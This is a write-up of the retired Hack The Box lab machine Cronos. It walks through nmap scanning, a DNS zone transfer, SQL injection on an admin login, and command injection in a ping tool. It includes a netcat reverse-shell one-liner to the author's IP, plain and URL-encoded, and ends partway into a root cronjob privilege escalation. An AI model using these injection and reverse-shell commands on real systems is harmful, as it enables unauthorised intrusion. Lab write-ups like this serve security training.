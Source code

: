 # Cronos

This is the write-up for the box Cronos that got retired at the 5th August 2017.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.13    cronos.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/cronos.nmap 10.10.10.13
```

```markdown
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page we see the Apache2 default page.
As this server has DNS open there will probably be _Virtual Host Routing_ active so lets visit the site with the hostname **cronos.htb**.

Now we see a real web page with this:

![Cronos web page](https://kyuu-ji.github.io/htb-write-up/cronos/cronos_web-page.png)

All the links have something to do with a software called **Laravel** which is a PHP framework.
As this won't help much we start _Gobuster_ to look for hidden paths on this site:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://cronos.htb/ 
```

We only get _/server-status_ but with a HTTP code 403 (Forbidden).

## Checking DNS (Port 53)

As the DNS service runs on TCP, which is unusual, we will check for _DNS Zone Transfer records_:
```markdown
dig axfr @10.10.10.13 cronos.htb
```
```markdown
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
```

The most interesting one is probably **admin.cronos.htb** so lets put the domains in the _Hosts_ file and browse there.
It gives us a login page:

![Cronos login page](https://kyuu-ji.github.io/htb-write-up/cronos/cronos_login-page.png)

### Exploiting the Login Page

After copying the request for the login page and saving it as a file (login.req) we try a SQL Injection with _SQLMap_ on this:
```markdown
sqlmap -r login.req 
```

The mostinteresting output from SQLMap is this:
> sqlmap got a 302 redirect to 'http://admin.cronos.htb:80/welcome.php'. Do you want to follow? [Y/n]

And this:
> POST parameter 'username' is vulnerable.(...)

So lets try a basic SQL Injection on the username field:

![Cronos SQL Injection](https://kyuu-ji.github.io/htb-write-up/cronos/cronos_sqli.png)

And we are logged in and see this page:

![Cronos Welcome page](https://kyuu-ji.github.io/htb-write-up/cronos/cronos_welcome-page.png)

### Exploiting the Net Tool

This page executes the commands _traceroute_ and _ping_ from the system so lets try basic command injection by appending another command after a semicolon.
Appending `; whoami` on the input field gives us the output _www-data_ so we have command execution and will start a reverse shell that listens on my IP and port 9001:
```markdown
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 9001 >/tmp/f

# In the request and URL-encoded:
command=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.8+9001+>/tmp/f
```

And we have a reverse shell session on the box!

## Privilege Escalation

Uploading and starting the enumeration script **LinEnum.sh** and looking at the output we see a cronjob that we want to exploit.
> * * * * *    root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1

The cronjob runs a Laravel command every minute as root and this can get us command execution as root.
On the [Laravel documentation](https://laravel.com/docs/5.8/scheduling) about how the scheduled commands work and create our own commands.



